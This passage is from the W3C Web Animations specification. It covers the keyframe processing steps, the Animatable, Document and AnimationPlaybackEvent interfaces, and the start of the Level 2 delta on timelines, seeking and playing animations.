     **`sequence<double?>`,**

     : The value of `offset` as-is.

     **`double?`,**

     : A sequence of length one with the value of `offset` as its single item, i.e. « `offset` »,
  6. Assign each value in *offsets* to the keyframe offset of the keyframe with the corresponding position in *processed keyframes* until the end of either sequence is reached.
  7. Let *easings* be a sequence of `DOMString` values assigned based on the type of the `easing` member of the *property-indexed keyframe* as follows:

     **`sequence<DOMString>`,**

     : The value of `easing` as-is.

     **`DOMString`,**

     : A sequence of length one with the value of `easing` as its single item, i.e. « `easing` »,
  8. If *easings* is an empty sequence, let it be a sequence of length one containing the single value "linear", i.e. « "linear" ».
  9. If *easings* has fewer items than *processed keyframes*, repeat the elements in *easings* successively starting from the beginning of the list until *easings* has as many items as *processed keyframes*.

     > **Example:** For example, if *processed keyframes* has five items, and *easings* is the sequence « "ease-in", "ease-out" », *easings* would be repeated to become « "ease-in", "ease-out", "ease-in", "ease-out", "ease-in" ».
  10. If *easings* has more items than *processed keyframes*, store the excess items as *unused easings*.
  11. Assign each value in *easings* to a property named `easing` on the keyframe with the corresponding position in *processed keyframes* until the end of *processed keyframes* is reached.
  12. If the `composite` member of the *property-indexed keyframe* is *not* an empty sequence:

    1. Let *composite modes* be a sequence of `CompositeOperationOrAuto` values assigned from the `composite` member of *property-indexed keyframe*. If that member is a single `CompositeOperationOrAuto` value operation, let *composite modes* be a sequence of length one, with the value of the `composite` as its single item.
    2. As with *easings*, if *composite modes* has fewer items than *processed keyframes*, repeat the elements in *composite modes* successively starting from the beginning of the list until *composite modes* has as many items as *processed keyframes*.
    3. Assign each value in *composite modes* that is not `auto` to the keyframe-specific composite operation on the keyframe with the corresponding position in *processed keyframes* until the end of *processed keyframes* is reached.
6. If *processed keyframes* is not loosely sorted by offset, throw a `TypeError` and abort these steps.
7. If there exist any keyframe in *processed keyframes* whose keyframe offset is non-null and less than zero or greater than one, throw a `TypeError` and abort these steps.
8. For each *frame* in *processed keyframes*, perform the following steps:

  1. For each property-value pair in *frame*, parse the property value using the syntax specified for that property.

     If the property value is invalid according to the syntax for the property, discard the property-value pair. User agents that provide support for diagnosing errors in content SHOULD produce an appropriate warning highlighting the invalid property value.
  2. Let the easing function of *frame* be the result of parsing the `easing` property on *frame* using the CSS syntax defined for the `easing` member of the `EffectTiming` dictionary.

     If parsing the `easing` property fails, throw a `TypeError` and abort this procedure.

     > **Note:** Using the CSS parser in both of the above steps implies that CSS comments and escaping are allowed, but are not retained when the value is successfully parsed.

     > **Note:** In the case where the `easing` property fails to parse, it is important that the `TypeError` is thrown *after* all reading the properties from *object* since failing to do so would be observable and will not match the behavior if partially open-ended dictionaries are later supported in WebIDL.
9. Parse each of the values in *unused easings* using the CSS syntax defined for the `easing` member of the `EffectTiming` dictionary, and if any of the values fail to parse, throw a `TypeError` and abort this procedure.

   > **Note:** This final step is needed in order to provide consistent behavior such that a `TypeError` is thrown in all of the following cases:
   >
   > ```
   > elem.animate({ easing: 'invalid' });
   > elem.animate({ easing: ['invalid'] });
   > elem.animate([{ easing: 'invalid' }]);
   > ```

##### 6.6.4. The `KeyframeEffectOptions` dictionary {#web-animations-1:the-keyframeeffectoptions-dictionary}

Additional parameters may be passed to the `KeyframeEffect(target, keyframes, options)` constructor by providing a `KeyframeEffectOptions` object.

```webidl
dictionary KeyframeEffectOptions : EffectTiming {
    CompositeOperation composite = "replace";
    CSSOMString?       pseudoElement = null;
};
```

****`composite`**,  of type CompositeOperation, defaulting to `"replace"`**

: The composite operation used to composite this animation with the effect stack, as specified by one of the `CompositeOperation` enumeration values. This is used for all keyframes that specify an `auto` keyframe-specific composite operation.

****`pseudoElement`**,  of type CSSOMString, nullable, defaulting to `null`**

: The pseudo-element selector (which must be valid or `null`) used to specify the effect target given the target element.

#### 6.7. The `CompositeOperation` and `CompositeOperationOrAuto` enumerations {#web-animations-1:the-compositeoperation-enumeration}

The possible values of an keyframe effect’s composition behavior are represented by the `CompositeOperation` enumeration.

```webidl
enum CompositeOperation { "replace", "add", "accumulate" };
```

****`replace`****

: Corresponds to the replace composite operation value such that the animation effect overrides the underlying value it is combined with.

****`add`****

: Corresponds to the add composite operation value such that the animation effect is added to the underlying value with which it is combined.

****`accumulate`****

: Corresponds to the accumulate composite operation value such that the animation effect is accumulated onto the underlying value.

The possible values of a keyframe’s composition behavior share the same values as the `CompositeOperation` enumeration along with the additional `auto` value.

```webidl
enum CompositeOperationOrAuto { "replace", "add", "accumulate", "auto" };
```

****`auto`****

: Indicates that the composite operation of the associated keyframe effect should be used.

#### 6.8. The `Animatable` interface mixin {#web-animations-1:the-animatable-interface-mixin}

Objects that could be the target of an `KeyframeEffect` object implement the `Animatable` interface mixin.

```webidl
interface mixin Animatable {
    Animation           animate(object? keyframes,
                                optional (unrestricted double or KeyframeAnimationOptions) options = {});
    sequence<Animation> getAnimations(optional GetAnimationsOptions options = {});
};

dictionary KeyframeAnimationOptions : KeyframeEffectOptions {
    DOMString id = "";
    AnimationTimeline? timeline;
};

dictionary GetAnimationsOptions {
    boolean subtree = false;
    CSSOMString? pseudoElement = null;
};
```

****`Animation animate(keyframes, options)`****

: Performs the following steps:

  1. Let *target* be the object on which this method was called.
  2. Construct a new `KeyframeEffect` object *effect* in the relevant Realm of *target* by using the same procedure as the `KeyframeEffect(target, keyframes, options)` constructor, passing *target* as the *target* argument, and the *keyframes* and *options* arguments as supplied.

     If the above procedure causes an exception to be thrown, propagate the exception and abort this procedure.
  3. If *options* is a `KeyframeAnimationOptions` object, let *timeline* be the `timeline` member of *options* or, if `timeline` member of *options* is missing, the default document timeline of the node document of the element on which this method was called.
  4. Construct a new `Animation` object, *animation*, in the relevant Realm of *target* by using the same procedure as the `Animation()` constructor, passing *effect* and *timeline* as arguments of the same name.
  5. If *options* is a `KeyframeAnimationOptions` object, assign the value of the `id` member of *options* to *animation*’s `id` attribute.
  6. Run the procedure to play an animation for *animation* with the *auto-rewind* flag set to true.
  7. Return *animation*.

  *This section is non-normative*

  The following code fragment:

  ```
  var animation = elem.animate({ opacity: 0 }, 2000);
  ```

  is roughly equivalent to:

  ```
  var effect = new KeyframeEffect(elem, { opacity: 0 }, 2000);
  var animation = new Animation(effect, elem.ownerDocument.timeline);
  animation.play();
  ```

  ****`keyframes`****

  : The keyframes to use. This value is passed to the `KeyframeEffect(target, keyframes, options)` constructor as the *keyframes* parameter and has the same interpretation as defined for that constructor.

  ****`options`****

  : The timing and animation options for the created `KeyframeEffect` and `Animation`.

  **`TypeError`**

  : Raised under the conditions described for `updateTiming()` or `setKeyframes()`.

  **`DOMException` of type "`SyntaxError`"**

  : Raised if the `pseudoElement` option is not `null` and is an invalid `<pseudo-element-selector>`.

****`sequence<Animation> getAnimations(options)`****

: 1. Let *object* be the object on which this method was called.
  2. Let *pseudoElement* be the result of `pseudo-element parsing` applied to `pseudoElement` of `options`, or `null` if `options` is not passed.
  3. If *pseudoElement* is not `null`, then let *target* be the pseudo-element identified by *pseudoElement* with *object* as the originating element. Otherwise, let *target* be *object*.
  4. If `options` is passed with `subtree` set to true, then return the set of relevant animations for a subtree of *target*. Otherwise, return the set of relevant animations for *target*.

  The list returned by the above algorithm is sorted using the composite order described for the associated animations of effects in [§ 5.4.2 The effect stack](#web-animations-1:the-effect-stack).

  Calling this method triggers a style change event for the target element. As a result, the returned list reflects the state *after* applying any pending style changes to animation such as changes to animation-related style properties that have yet to be processed.

  ****`options`****

  : Parameters governing the set of animations returned by `getAnimations()`.

  **`DOMException` of type "`SyntaxError`"**

  : Raised if the `pseudoElement` option is not `null` and is an invalid `<pseudo-element-selector>`.

****`id`**,  of type DOMString, defaulting to `""`**

: The string to assign to the generated `Animation`’s `id` attribute.

****`timeline`**,  of type AnimationTimeline, nullable**

: An optional value which, if present, specifies the timeline with which to associate the newly-created animation.

****`subtree`**,  of type boolean, defaulting to `false`**

: If true, indicates that animations associated with an animation effect whose target element is a descendant of the object on which `getAnimations()` is called should also be included in the result.

****`pseudoElement`**,  of type CSSOMString, nullable, defaulting to `null`**

: If set, indicates that the target of the operation is the pseudo-element identified by this pseudo selector (e.g. `::before`) with the originating element being the object on which the function is called.

#### 6.9. Extensions to the `Document` interface {#web-animations-1:extensions-to-the-document-interface}

The following extensions are made to the `Document` interface defined in [DOM].

```webidl
partial interface Document {
    readonly attribute DocumentTimeline timeline;
};
```

****`timeline`**,  of type DocumentTimeline, readonly**

: The `DocumentTimeline` object representing the default document timeline.

#### 6.10. Extensions to the `DocumentOrShadowRoot` interface mixin {#web-animations-1:extensions-to-the-documentorshadowroot-interface-mixin}

The following extensions are made to the `DocumentOrShadowRoot` interface mixin defined in [DOM].

```webidl
partial interface mixin DocumentOrShadowRoot {
    sequence<Animation> getAnimations();
};
```

****`sequence<Animation> getAnimations()`****

: Returns the set of relevant animations for a subtree for the document or shadow root on which this method is called.

  The returned list is sorted using the composite order described for the associated animations of effects in [§ 5.4.2 The effect stack](#web-animations-1:the-effect-stack).

  Calling this method triggers a style change event for the document. As a result, the returned list reflects the state *after* applying any pending style changes to animation such as changes to animation-related style properties that have yet to be processed.

#### 6.11. Extensions to the `Element` interface {#web-animations-1:extensions-to-the-element-interface}

Since DOM Elements can be the target of an animation, the `Element` interface [DOM] is extended as follows:

```webidl
Element includes Animatable;
```

This allows the following kind of usage.

> **Example:** ```
> elem.animate({ color: 'red' }, 2000);
> ```

#### 6.12. The `AnimationPlaybackEvent` interface {#web-animations-1:the-animationplaybackevent-interface}

Animation playback events are represented using the `AnimationPlaybackEvent` interface.

```webidl
[Exposed=Window]
interface AnimationPlaybackEvent : Event {
    constructor(DOMString type, optional AnimationPlaybackEventInit eventInitDict = {});
    readonly attribute double? currentTime;
    readonly attribute double? timelineTime;
};
dictionary AnimationPlaybackEventInit : EventInit {
    double? currentTime = null;
    double? timelineTime = null;
};
```

****`AnimationPlaybackEvent (type, eventInitDict)`****

: Constructs a new `AnimationPlaybackEvent` object using the procedure defined for constructing events [DOM].

****`currentTime`**,  of type double, readonly, nullable**

: The current time of the animation that generated the event at the moment the event was queued. This will be `null` if the animation was idle at the time the event was generated.

****`timelineTime`**,  of type double, readonly, nullable**

: The time value of the timeline with which the animation that generated the event is associated at the moment the event was queued. This will be `null` if the animation was not associated with an active timeline at the time the event was queued.

****`currentTime`**,  of type double, nullable, defaulting to `null`**

: See the description of the `currentTime` attribute.

****`timelineTime`**,  of type double, nullable, defaulting to `null`**

: See the description of the `timelineTime` attribute.

#### 6.13. Model liveness {#web-animations-1:model-liveness}

Changes made to any part of the model cause the entire timing model to be updated and any dependent style.

Unless otherwise stated, invoking the methods or constructors, or getting or setting the members of interfaces defined in the Web Animations API does *not* produce a style change event.

> **Note:** Other specifications that extend this specification are expected to refine the requirements on style change events by introducing circumstances where such events *are* triggered. For example, when the interfaces in this specification represent animations defined by CSS markup, many of their methods will need to trigger style change events in order to reflect changes to the specified style.

*This section is non-normative*

Based on the above requirement and normative requirements elsewhere in this specification, the following invariants can be observed:

**Changes made to the Web Animations model take effect immediately**

: For example, if the `KeyframeEffect` associated with an `Animation` is seeked (see [§ 4.5.4 Setting the current time of an animation](#web-animations-1:setting-the-current-time-of-an-animation)) via the Web Animations API, the value returned when querying the animation’s `startTime` will reflect updated state of the model immediately.

  > **Example:** ```
  > // Initially animation.effect.getComputedTiming().localTime is 3000
  > animation.currentTime += 2000;
  > alert(animation.effect.getComputedTiming().localTime); // Displays "5000"
  > ```

**Querying the computed style of a property affected by animation returns the fully up-to-date state of the animation**

: For example, if the used style of an element is queried immediately after applying a new `Animation` to that element, the result of the new animation will be incorporated in the value returned.

  > **Example:** ```
  > // Set opacity to 0 immediately
  > elem.animate({ opacity: 0 }, { fill: 'forwards' });
  > alert(window.getComputedStyle(elem).opacity); // Displays "0"
  > ```

**Changes made within the same task are synchronized such that the whole set of changes is rendered together**

: As a result of changes to the model taking effect immediately combined with ECMAScript’s run-to-completion semantics, there should never be a situation where, for example, *only* the changes to specified style are rendered without applying animation.

  > **Example:** ```
  > // Fade the opacity with fallback for browsers that don't
  > // support Element.animate
  > elem.style.opacity = '0';
  > elem.animate([ { opacity: 1 }, { opacity: 0 } ], 500);
  > ```

  > **Note:** however, that in the example above, a user agent may render a frame with *none* of the above changes applied. This might happen, for example, if rendering occurs in a separate process that is scheduled to run shortly after the above task completes but before the changes can be communicated to the process.

**The value returned by the `currentTime` attribute of a document timeline will not change within a task**

: Due to the requirement on timelines to update their current time each time the update animations and send events procedure is run, querying the `currentTime` twice within a long block of code that is executed in the same script block will return the same value as shown in the following example.

  > **Example:** ```
  > var a = document.timeline.currentTime;
  > // ... many lines of code ...
  > var b = document.timeline.currentTime;
  > alert(b - a); // Displays 0
  > ```

**The time passed to a `requestAnimationFrame` callback will be equal to `document.timeline.currentTime`**

: Since HTML’s event loop processing model defines that the procedure to update animations and send events is performed prior to running animation frame callbacks, and since the time passed to such callbacks is the same *now* timestamp is passed to both procedures, the current time of a the default document timeline should match the time passed to `requestAnimationFrame`.

  > **Example:** ```
  > window.requestAnimationFrame(function(now) {
  >   // Displays 0
  >   alert(now - document.timeline.currentTime);
  > });
  > ```

**Calling methods from this programming interface will generally *not* cause transitions to be triggered**

: Consider the following example:

  > **Example:** ```
  > // Setup transition start point
  > div.style.opacity = '1';
  > getComputedStyle(div).opacity;
  >
  > // Setup transition end point
  > div.style.transition = 'opacity 1s';
  > div.style.opacity = '0';
  >
  > // Fire an animation
  > div.animate({ opacity: [0.5, 1] }, 500);
  >
  > // Wait for the transition to end -- the following will never be called!
  > div.addEventListener('transitionend', () => {
  >   console.log('transitionend');
  > });
  > ```

  In this case, calling `animate()` will *not* trigger a style change event. As a result, the pending style change will be processed at the same time as the style change resulting from the new animation. Since the animation style will override the before-change style and the after-change style, no transition will be generated and the event handler for the transitionend event will never be called.

### 7. Integration with Media Fragments {#web-animations-1:integration-with-media-fragments}

The Media Fragments specification [MEDIA-FRAGS] defines a means for addressing a temporal range of a media resource. The application of media fragments depends on the MIME type of the resource on which they are specified. For resources with the SVG MIME type [SVG11], the application of temporal parameters is defined in the [Animation Elements](https://svgwg.org/specs/animation-elements/) specification.

> **Note:** Media fragments are defined to operate on resources based on their MIME type. As a result, temporal addressing might not be supported in all situations where Web Animations content is used.

### 8. Implementation requirements {#web-animations-1:implementation-requirements}

#### 8.1. Precision of time values {#web-animations-1:precision-of-time-values}

The internal representation of time values is implementation dependent. However, it is RECOMMENDED that user agents be able to represent input time values with microsecond precision so that a time value (which nominally represents milliseconds) of 0.001 is distinguishable from 0.0.

#### 8.2. Conformance criteria {#web-animations-1:conformance-criteria}

This specification defines an abstract model for animation and, as such, for user agents that do not support scripting, there are no conformance criteria since there is no testable surface area.

User agents that do not support scripting, however, may implement additional technologies defined in terms of this specification, in which case the definitions provided in this specification will form part of the conformance criteria of the additional technology.

A **conforming scripted Web Animations user agent** is a user agent that implements the Web Animations API defined in [§ 6 Programming interface](#web-animations-1:programming-interface).

### Appendix A: Animation types of existing properties {#web-animations-1:animation-types}

Typically the animation type of a property is included along with its definition. However, for some properties defined in older or very mature specifications the animation type information is not included. All such properties are assumed to have an animation type of by computed value unless they are one of the exceptions listed below.

#### Animation of `font-weight` {#web-animations-1:animating-font-weight}

The `font-weight` property values prior to Level 4 are [combined](#css-values-4:combining-values) as follows:

- Interpolated via discrete steps (multiples of 100). The interpolation happens in real number space as for `<number>`s, and is converted to an integer by rounding to the nearest multiple of 100, with values halfway between multiples of 100 rounded towards positive infinity.
- Addition of `font-weight` values is defined as *Vresult* = *Va* + *Vb*

> **Note:** This definition is obsoleted by [CSS-FONTS-4] where the requirement that a `font-weight` value be a multiple of 100 is dropped. At that point the animation type for `font-weight` is simply by computed value.

#### Animation of `visibility` {#web-animations-1:animating-visibility}

For the `visibility` property, `visible` is interpolated as a discrete step where values of *p* between 0 and 1 map to `visible` and other values of *p* map to the closer endpoint. If neither value is `visible`, then discrete animation is used.

#### Animation of `box-shadow` and `text-shadow` {#web-animations-1:animating-shadow-lists}

Animation the `box-shadow` or `text-shadow` property follows the procedures for [combining](#css-values-4:combining-values) **shadow lists** as follows:

Each shadow in the list (treating `none` as a 0-length list) is interpolated component-wise as with by computed value behavior. However, if both input shadows are `inset` or both input shadows are not `inset`, then the interpolated shadow must match the input shadows in that regard. If any pair of input shadows has one `inset` and the other not `inset`, the entire shadow-list uses discrete animation. If the lists of shadows have different lengths, then the shorter list is padded at the end with shadows whose color is `transparent`, whose lengths are all `0`, and whose `inset` (or not) matches the longer list.

Addition of two shadow lists *Va* and *Vb* is defined as list concatenation such that *Vresult* is equal to *Va* extended with *Vb*.

Accumulation of shadow lists follows the matching rules for interpolation above, performing addition on each component according to its type, or falling back to discrete animation if the `inset` values do not match.

---

## Web Animations Module Level 2 {#web-animations-2}

- **Shortname:** `web-animations-2`
- **Editor's Draft:** [https://drafts.csswg.org/web-animations-2/](https://drafts.csswg.org/web-animations-2/)
- **Published TR:** [https://www.w3.org/TR/web-animations-2/](https://www.w3.org/TR/web-animations-2/)
- **W3C Status:** WD (exploring)
- **Last Edited:** 2026-10-08
- **Diff Specification Over:** [Web Animations Module Level 1 (`web-animations-1`)](#web-animations-1)

### 1. Delta specification {#web-animations-2:delta}

This is a delta specification, meaning that it currently contains only the differences from Web Animations Level 1 [WEB-ANIMATIONS-1]. Once the Level 1 specification is closer to complete, it will be merged with the additions here into a complete level 2 specification.

### 2. Timing model {#web-animations-2:timing-model}

This section describes and defines the behavior of the Web Animations timing model.

#### 2.1. Timing model overview {#web-animations-2:timing-model-overview}

*This section is non-normative*

##### 2.1.1. Hierarchical {#web-animations-2:hierarchical}

This level of the specification includes an updated timing hierarchy diagram.


A hierarchy of timing nodes. Each node in the tree derives its time from its parent node.

Along with the following updated description:

> A consequence of this hierarchical arrangement is that complex animation arrangements can be reversed, scheduled, accelerated and so on as a whole unit since the manipulations applied to the parent, cascade down to its descendants. Furthermore, since time has a common source, it is easy to synchronize animations.

#### 2.2. Timelines {#web-animations-2:timelines}

Add:

> The **duration** of a timeline gives the maximum value a timeline may generate for its current time. This value is used to calculate the intrinsic iteration duration for the target effect of an animation that is associated with the timeline when the effect’s iteration duration is "auto". The value is computed such that the effect fills the available time. For a monotonic timeline, there is no upper bound on current time, and timeline duration is unresolved. For a non-monotonic (e.g. scroll) timeline, the duration has a fixed upper bound. In this case, the timeline is a **progress-based timeline**, and its timeline duration is 100%.
>
> **minimum timeline time**
>
> For a progress-based timeline, the minimum timeline time is the minimum value that can be produced for the timeline. For a monotonically increasing timeline, minimum timeline time is -infinity.
>
> **maximum timeline time**
>
> For a progress-based timeline, the maximum timeline time is the maximum possible value producible for timeline time, and matches the timeline duration. For a monotonically increasing timeline. it is +infinity.
>
> > **Note:** The minimum and maximum values will be the values associated with the minimum and maximum scroll offsets, respectively, when using a scroll timeline.

#### 2.3. Animations {#web-animations-2:animations}

Append:

> Animation effects associated with a progress-based timeline require their timing properties to be converted to proportions. The procedure for converting a  is as follows:
>
> 1. If the iteration duration is auto, then perform the following steps.
>
>   - Set start delay and end delay to 0, as it is not possible to mix time and proportions.
>
>     > **Note:** Future versions may allow these properties to be assigned percentages, at which point the delays are only to be ignored if their values are expressed as times and not as percentages.
>
>    Otherwise:
>
>   1. Let *total time* be equal to end time
>   2. Set start delay to be the result of evaluating `specified start delay / total time * timeline duration`.
>   3. Set iteration duration to be the result of evaluating `specified iteration duration / total time * timeline duration`.
>   4. Set end delay to be the result of evaluating `specified end delay / total time * timeline duration`.
>
> The procedure to **normalize specified timing** is as follows:
>
> If timeline duration is resolved:
>
> - Follow the procedure to convert a time-based animation to a proportional animation
>
> Otherwise:
>
> 1. Set start delay = *specified start delay*
> 2. Set end delay = *specified end delay*
> 3. If iteration duration is auto:
>
>   - Set iteration duration = intrinsic iteration duration
>
>    Otherwise:
>
>   - Set iteration duration = *specified iteration duration*

##### 2.3.1. Setting the timeline of an animation {#web-animations-2:setting-the-timeline}

The procedure to **set the timeline of an animation**, *animation*, to *new timeline* which may be null, is as follows:

1. Let *old timeline* be the current timeline of *animation*, if any.
2. If *new timeline* is the same object as *old timeline*, abort this procedure.
3. Let *previous play state* be *animation*’s play state.
4. Let *previous current time* be the *animation*’s current time.
5. Set *previous progress* based in the first condition that applies:

   **If *previous current time* is unresolved:**

   : Set *previous progress* to unresolved.

   **If end time is zero:**

   : Set *previous progress* to zero.

   **Otherwise**

   : Set *previous progress* = `previous current time / end time`
6. Let *from finite timeline* be true if *old timeline* is not null and not monotonically increasing.
7. Let *to finite timeline* be true if *timeline* is not null and not monotonically increasing.
8. Let the timeline of *animation* be *new timeline*.
9. Perform the steps corresponding to the *first* matching condition from the following, if any:

   **If *to finite timeline*,**

   : 1. Apply any pending playback rate on *animation*
  2. set *auto align start time* to true.
  3. Set start time to unresolved.
  4. Set hold time to unresolved.
  5. If *previous play state* is "finished" or "running"

    1. Schedule a pending play task
  6. If *previous play state* is "paused" and *previous progress* is resolved:

    1. Set hold time to *previous progress* * end time.

  > **Note:** This step ensures that *previous progress* is preserved even in the case of a pause-pending animation with a resolved start time.

   **If *from finite timeline* and *previous progress* is resolved,**

   : Run the procedure to set the current time to *previous progress* * end time.
10. If the start time of *animation* is resolved, make *animation*’s hold time unresolved.

   > **Note:** This step ensures that the finished play state of *animation* is not “sticky” but is re-evaluated based on its updated current time.
11. Run the procedure to update an animation’s finished state for *animation* with the *did seek* flag set to false, and the *synchronously notify* flag set to false.

Issue: If *new timeline* is null, we should ensure that custom effects get called with an unresolved iteration progress (unless a subsequent change in the same script execution context makes this redundant).

##### 2.3.2. Setting the target effect of an animation {#web-animations-2:setting-the-target-effect}

After the step to reschedule a pending play task add the following step:

> 1. If *new effect* is not `null` and if *new effect* has a parent group, remove *new effect* from its parent group.

After the step to assign *new effect* as *animation*’s associated effect include the following step:    If *old effect* is not `null`, queue a task to call any custom effects associated with inclusive descendants of *old effect* with an unresolved iteration progress.   This is not quite right. If *old effect* is attached to another animation in the same task then we should probably not do an extra callback with unresolved. The definition of when custom effects gets called needs to be audited and probably rewritten.

##### 2.3.3. Waiting for the associated effect {#web-animations-2:waiting-for-the-associated-effect}

Replace:

> An animation is ready at the first moment where *both* of the following conditions are true:
>
> - the user agent has completed any setup required to begin the playback of the animation’s associated effect, including rendering the first frame of any keyframe effect.
> - the animation is associated with a timeline that is not inactive.

With:

> An animation is **ready** at the first moment where *all* of the following conditions are true:
>
> - the user agent has completed any setup required to begin the playback of each inclusive descendant of the animation’s associated effect including rendering the first frame of any keyframe effect  or executing any custom effects associated with an animation effect .
> - the animation is associated with a timeline that is not inactive.
> - the animation’s hold time or start time is resolved.

> **Note:** an animation is not ready while it has no start time or hold time. For a scroll-driven animation, the start-time is determined when updating the timeline if *auto align start time* is true.

##### 2.3.4. Validating a CSSNumberish time {#web-animations-2:validating-a-css-numberish-time}

The procedure to **validate a CSSNumberish time** for an input value of *time* is based on the first condition that matches:

**If *all* of the following conditions are true:   The animation is associated with a progress-based timeline, and  *time* is not a `CSSNumericValue` with percent units:**

: throw a TypeError.

  return false;

**If *all* of the following conditions are true:   The animation is not associated with a progress-based timeline, and  *time* is a CSSNumericValue, and  the units of time are not `duration units`:**

: throw a TypeError.

  return false.

**Otherwise**

: return true.

##### 2.3.5. Setting the current time of an Animation {#web-animations-2:setting-the-current-time-of-an-animation}

The current time of an animation can be set to a new value to *seek* the animation. The procedure for setting the current time is defined in two parts.

The procedure to **silently set the current time** of an animation, *animation*, to *seek time* is as follows:

1. If *seek time* is an unresolved time value, then perform the following steps.

  1. If the current time is resolved, then throw a TypeError.
  2. Abort these steps.
2. Let *valid seek time* be the result of running the validate a CSSNumberish time procedure with *seek time* as the input.
3. If *valid seek time* is false, abort this procedure.
4. Set *auto align start time* to false.
5. Update either *animation*’s hold time or start time as follows:

   **If *any* of the following conditions are true:   *animation*’s hold time is resolved, or  *animation*’s start time is unresolved, or  *animation* has no associated timeline or the associated timeline is inactive, or  *animation*’s playback rate is 0,**

   : 1. Set *animation*’s hold time to *seek time*.

   **Otherwise,**

   : Set *animation*’s start time to the result of evaluating `timeline time - (seek time / playback rate)` where *timeline time* is the current time value of timeline associated with *animation*.
6. If *animation* has no associated timeline or the associated timeline is inactive, make *animation*’s start time unresolved.

   > **Note:** This preserves the invariant that when we don’t have an active timeline it is only possible to set *either* the start time *or* the animation’s current time.
7. Make animation’s *previous current time* unresolved.

The procedure to **set the current time** of an animation, *animation*, to *seek time* is as follows:

1. Run the steps to silently set the current time of *animation* to *seek time*.
2. If *animation* has a pending pause task, synchronously complete the pause operation by performing the following steps:

  1. Set *animation*’s hold time to *seek time*.
  2. Apply any pending playback rate to *animation*.
  3. Make *animation*’s start time unresolved.
  4. Cancel the pending pause task.
  5. Resolve *animation*’s current ready promise with *animation*.
3. Run the procedure to update an animation’s finished state for *animation* with the *did seek* flag set to true, and the *synchronously notify* flag set to false.

##### 2.3.6. Setting the start time of an Animation {#web-animations-2:setting-the-start-time-of-an-animation}

The procedure to **set the start time** of animation, *animation*, to *new start time*, is as follows:

1. Let *valid start time* be the result of running the validate a CSSNumberish time procedure with *new start time* as the input.
2. If *valid start time* is false, abort this procedure.
3. Set *auto align start time* to false.
4. Let *timeline time* be the current time value of the timeline that *animation* is associated with. If there is no timeline associated with *animation* or the associated timeline is inactive, let the *timeline time* be unresolved.
5. If *timeline time* is unresolved and *new start time* is resolved, make *animation*’s hold time unresolved.

   > **Note:** This preserves the invariant that when we don’t have an active timeline it is only possible to set *either* the start time *or* the animation’s current time.
6. Let *previous current time* be *animation*’s current time.

   > **Note:** This is the current time after applying the changes from the previous step which may cause the current time to become unresolved.
7. Apply any pending playback rate on *animation*.
8. Set *animation*’s start time to *new start time*.
9. Update *animation*’s hold time based on the first matching condition from the following,

   **If *new start time* is resolved,**

   : If *animation*’s playback rate is not zero, make *animation*’s hold time unresolved.

   **Otherwise (*new start time* is unresolved),**

   : 1. Set *animation*’s hold time to *previous current time* even if *previous current time* is unresolved.
10. If *animation* has a pending play task or a pending pause task, cancel that task and resolve *animation*’s current ready promise with *animation*.
11. Run the procedure to update an animation’s finished state for *animation* with the *did seek* flag set to true, and the *synchronously notify* flag set to false.

##### 2.3.7. Playing an animation {#web-animations-2:playing-an-animation-section}

The procedure to **play an animation**, *animation*, given a flag *auto-rewind*, is as follows:

> **Note:** The *auto-rewind* flag is provided for other specifications that build on this model but do not require the rewinding behavior, such as CSS Animations [CSS-ANIMATIONS-1].

1. Let *aborted pause* be a boolean flag that is true if *animation* has a pending pause task, and false otherwise.
2. Let *has pending ready promise* be a boolean flag that is initially false.
3. Let *has finite timeline* be true if *animation* has an associated timeline that is not monotonically increasing.
4. Let *previous current time* be the *animation*’s current time
5. Let *enable seek* be true if the *auto-rewind* flag is true and *has finite timeline* is false. Otherwise, initialize to false.
6. Perform the steps corresponding to the *first* matching condition from the following, if any:

   **If *animation*’s effective playback rate > 0, *enable seek* is true and *either* *animation*’s:   *previous current time* is unresolved, or  *previous current time* < zero, or  *previous current time* ≥ associated effect end,**

   : Set the *animation*’s hold time to zero.

   **If *animation*’s effective playback rate < 0, *enable seek* is true and *either* *animation*’s:   *previous current time* is unresolved, or  *previous current time* ≤ zero, or  *previous current time* > associated effect end,**

   : **If associated effect end is positive infinity,**

  : throw an "`InvalidStateError`" `DOMException` and abort these steps.

  **Otherwise,**

  : Set the *animation*’s hold time to the *animation*’s associated effect end.

   **If *animation*’s effective playback rate = 0 and *animation*’s current time is unresolved,**

   : Set the *animation*’s hold time to zero.
7. If *has finite timeline* and *auto-rewind* is true:

  1. Set the flag *auto align start time* to true.
  2. Set the *animation*’s hold time to *previous current time*.

   > **Note:** If play is called for a CSS animation during style update, the *animation*’s start time cannot be reliably calculated until post layout since the start time is to align with the start or end of the animation range (depending on the playback rate). In this case, the animation is said to have an **auto-aligned start time**, whereby the start time is automatically adjusted as needed to align the animation’s progress to the animation range.
8. If *animation*’s hold time is resolved, let its start time be unresolved.
9. If *animation* has a pending play task or a pending pause task,

  1. Cancel that task.
  2. Set *has pending ready promise* to true.
10. If the following three conditions are *all* satisfied:

  - *animation*’s hold time is unresolved, and
  - *aborted pause* is false, and
  - *animation* does *not* have a pending playback rate,

   abort this procedure.
11. If *has pending ready promise* is false, let *animation*’s current ready promise be a new promise in the relevant Realm of *animation*.
12. Schedule a task to run as soon as *animation* is ready. The task shall perform the following steps:

  1. Assert that at least one of *animation*’s start time or hold time is resolved.
  2. Let *ready time* be the time value of the timeline associated with *animation* at the moment when *animation* became ready.
  3. Perform the steps corresponding to the first matching condition below, if any:

     **If *animation*’s hold time is resolved,**

     : 1. Apply any pending playback rate on *animation*.
  2. Let *new start time* be the result of evaluating `ready time - hold time / playback rate` for *animation*. If the playback rate is zero, let *new start time* be simply *ready time*.
  3. Set the start time of *animation* to *new start time*.
  4. If *animation*’s playback rate is not 0, make *animation*’s hold time unresolved.

     **If *animation*’s start time is resolved and *animation* has a pending playback rate,**

     : 1. Let *current time to match* be the result of evaluating `(ready time - start time) × playback rate` for *animation*.
  2. Apply any pending playback rate on *animation*.
  3. If *animation*’s playback rate is zero, let *animation*’s hold time be *current time to match*.
  4. Let *new start time* be the result of evaluating `ready time - current time to match / playback rate` for *animation*. If the playback rate is zero, let *new start time* be simply *ready time*.
  5. Set the start time of *animation* to *new start time*.
  4. Resolve *animation*’s current ready promise with *animation*.
  5. Run the procedure to update an animation’s finished state for *animation* with the *did seek* flag set to false, and the *synchronously notify* flag set to false.

     > **Note:** that the order of the above two steps is important since it means that an animation with zero-length associated effect will resolve its current ready promise before its current finished promise.

   So long as the above task is scheduled but has yet to run, *animation* is described as having a **pending play task**. While the task is running, however, *animation* does *not* have a pending play task.

